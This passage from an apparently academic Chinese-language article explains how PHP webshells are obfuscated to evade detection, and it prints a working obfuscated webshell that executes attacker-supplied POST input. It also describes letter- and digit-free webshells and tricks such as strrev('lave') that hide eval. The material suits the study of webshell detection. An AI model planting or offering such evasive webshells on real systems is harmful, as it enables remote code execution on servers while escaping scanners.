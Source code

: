 ​        利用这一特性我们可以生成如下的样本

```PHP
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```

基本没有任何的特征，这种混淆方法对于没有使用数据流分析和反混淆的检测手段来说几乎不能检出，绕过率极高。

（2）利用字符的自增运算符

在严格的假想条件下，我们希望不出现任何的字母和数字，这样的Webshell是很难被检测到的。PHP作为弱类型语言，存在一个特性，即是在处理字符串变量的算数运算时，沿用了Perl语言的习惯，而非C语言。

在Perl中，$a = 'Z';$a++; 能够把$a变成'AA'，而在C语言中，a = 'Z';a++;会把a变成'['（因为'Z'的ASCII值为90，'['的ASCII值为91）。而且字符变量只能递增，不能递减，并且只支持纯字母（a-z和A-Z）。

这个特性使得我们可以通过字母‘a’或者字母‘A’作为起始字符来构建任何我们想要的字符。

在PHP中，当数组和字符串被强制连接时，数组将被转换为一个值为‘Array’的字符串，这样一来我们就同时拿到了字符‘A’和‘a’。

依赖于上述特性，我们可以得到无字母数字的Webshell。

## 2.4  通过变量声明的混淆

在进行变量声明时，PHP允许通过函数的返回值来初始化变量。可以通过利用其他已知的混淆方式搭配变量进行二次混淆。这样我们可以把可能会被检测的特征字符通过函数变换之后赋值给变量，以此来达到绕过检测的目的。可以使用的声明手段包括但不限于如下几种：

​        （1）通过字符函数的返回值。例如“strrev('lave');”，该函数会返回eval字符串，可以作为声明条件赋值给变量，该变量的值即为eval。

​        （2）通过多元操作。因为存在字符串拼接、字符串运算的特性，可以通过多元运算操作来获取敏感函数。一个字符拼接的混淆可能如下所示，“$a = 'e'.'v'.'a'.'l';”，通过依次拼接e、v、a、l四个字符来得到eval函数。

​        （3）通过截取固定常量值的字段。PHP存在内置的常量，其中表2.2中列举的常量为经常被利用的常量。

<center><strong>表2.2 PHP部分内置常量及其含义</strong></center>

| 常量值      | 含义                   |
| ----------- | ---------------------- |
| \__FILE__   | 文件的完整路径和文件名 |
| \__CLASS__  | 类的名称               |
| \__METHOD__ | 类的方法名             |
| PHP_OS      | 运行PHP的操作系统      |
| PHP_VERSION | 运行PHP的版本号        |
